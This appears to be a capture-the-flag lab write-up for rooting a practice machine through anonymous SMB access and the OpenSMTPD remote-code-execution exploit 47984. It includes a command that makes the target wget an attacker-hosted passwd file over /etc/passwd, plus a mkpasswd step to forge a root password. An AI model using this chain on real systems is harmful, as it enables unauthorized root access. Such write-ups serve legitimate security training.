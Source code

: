 #### Tags
- Foothold: #smtp #opensmtpd #exploit-47984 #passwd #mkpasswd
#### Method

>[!code]- Find open ports (22, 25, 80, 445)
>**All open ports**
>- rustscan -a $ip
>
>![Pasted image 20240614052520](/Images/Pasted%20image%2020240614052520.png)
>
>___
>
>**Versions**
>- OpenSMTPD running on port 25
>  
> ![Pasted image 20240614053037](/Images/Pasted%20image%2020240614053037.png)

>[!code]- Obtain `passwd.bak` from the SMB share (port 445)
>List shares:
>- **-N** for no password (anonymous access)
>- **-L** to list available share
>
>![Pasted image 20240614052744](/Images/Pasted%20image%2020240614052744.png)
>
>___
>
>Connect to the **backup** share and download the **passwd.bak** file
>![Pasted image 20240614052852](/Images/Pasted%20image%2020240614052852.png)
>
>>[!code] passwd.bak
>>![Pasted image 20240614052952](/Images/Pasted%20image%2020240614052952.png)
>

>[!code]- Find an OpenSMTPD exploit (port 25)
>Searchsploit OpenSMPTD
>![Pasted image 20240614053211](/Images/Pasted%20image%2020240614053211.png)

>[!exploit]- The exploit allows for RCE; we can upload a malicious copy of `/etc/passwd`

>[!code]- Alter the download `passwd.bak` file to include a malicious **root** user
>Create a new hash of a password that we know:
>```bash
>mkpasswd -m md5 -s
>```
>![Pasted image 20240614053712](/Images/Pasted%20image%2020240614053712.png)
>
>___
>
>Edit **passwd.bak** and edit the root user within it:
>![Pasted image 20240614053841](/Images/Pasted%20image%2020240614053841.png)

>[!code]- Use the exploit to replace its original passwd file with our malicious `passwd.bak` file
>```bash
>python 47984.py 192.168.236.71 25 'wget 192.168.45.213/passwd -O /etc/passwd'
>```
>![Pasted image 20240614054054](/Images/Pasted%20image%2020240614054054.png)

>[!code]- SSH to the victim as root using the password in the malicious `passwd` file
>![Pasted image 20240614054235](/Images/Pasted%20image%2020240614054235.png)

>[!success]- Obtain proof.txt
>![Pasted image 20240614054309](/Images/Pasted%20image%2020240614054309.png)


